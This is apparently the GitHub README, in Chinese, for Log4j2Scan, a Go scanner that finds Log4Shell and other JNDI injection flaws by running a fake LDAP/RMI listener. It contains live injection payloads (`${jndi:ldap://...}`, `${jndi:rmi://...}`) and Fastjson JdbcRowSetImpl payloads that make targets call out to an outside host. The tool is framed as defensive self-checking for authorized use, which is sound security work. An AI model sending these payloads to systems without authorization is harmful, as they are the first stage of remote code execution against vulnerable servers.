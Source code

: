 # Log4j2Scan

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/golang-1.17-blue)

## ⚠️免责声明
在原有的协议中追加以下内容：

本项目禁止进行未授权商业用途

本项目禁止二次开发后进行商业用途

本项目仅面向合法授权的企业安全建设行为，在使用本项目进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。

如您在使用本项目的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。

在使用本项目前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要使用本项目。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

## 介绍
该项目由 天下大木头 与 4ra1n师傅 共同开发，感谢4ra1n师傅的许多帮助
 
这是什么？

该项目一款无须借助`dnslog`且完全无害的log4j2反连检测工具，解析`RMI`和`LDAP`协议实现，可用于甲方内网自查

特点：
- 由`Golang`编写，直接运行可执行文件进行检测
- 动态渲染数据到`web`页面，方便观察结果

![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/001.png)

## 使用

使用`${jndi:ldap://ip:端口/}`这样的`Payload`

如果目标存在漏洞，该项目就会收到`ldap/rmi`请求，从而快速定位哪些目标存在漏洞

Demo
![](https://github.com/KpLi0rn/Log4j2Scan/blob/main/img/002.png)

根据自己操作系统下载对应的可执行文件：[下载地址](https://github.com/KpLi0rn/Log4j2Scan/releases/tag/v0.0.1)

命令：`./Log4j2Scan -p port(默认8001) -wp webport(默认8888)`

```text
    __                __ __  _ _____
   / /   ____  ____ _/ // / (_) ___/_________ _____
  / /   / __ \/ __ `/ // /_/ /\__ \/ ___/ __ `/ __ \
 / /___/ /_/ / /_/ /__  __/ /___/ / /__/ /_/ / / / /
/_____/\____/\__, /  /_/_/ //____/\___/\__,_/_/ /_/
 /____/    /___/
    coded by 天下大木头 & 4ra1n
[+] [16:36:26] use port: 8000
[+] [16:36:26] use http port: 8888
[+] [16:36:26] start fake reverse server
[+] [16:36:26] start result http server
|------------------------------------|
|--Payload: ldap/rmi://your-ip:port--|
|------------------------------------|
```

只需要将`Payload`设置为：`ldap://your-ip:port`或`rmi://your-ip:port/xxx`

然后访问：`localhost:8888`即可动态查看最新结果

注意：`rmi`方式payload要为 `${jndi:rmi://127.0.0.1:8001/xxxx}` 类似这种形式


## 拓展

不止用于`Log4j2`框架，也可用于检测存在`JNDI`注入的其他框架

例如`Fastjson`的检测：

```text
{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "rmi://your-ip:port",
	"autoCommit": true
}

{
	"@type": "com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName": "ldap://your-ip:port",
	"autoCommit": true
}
```

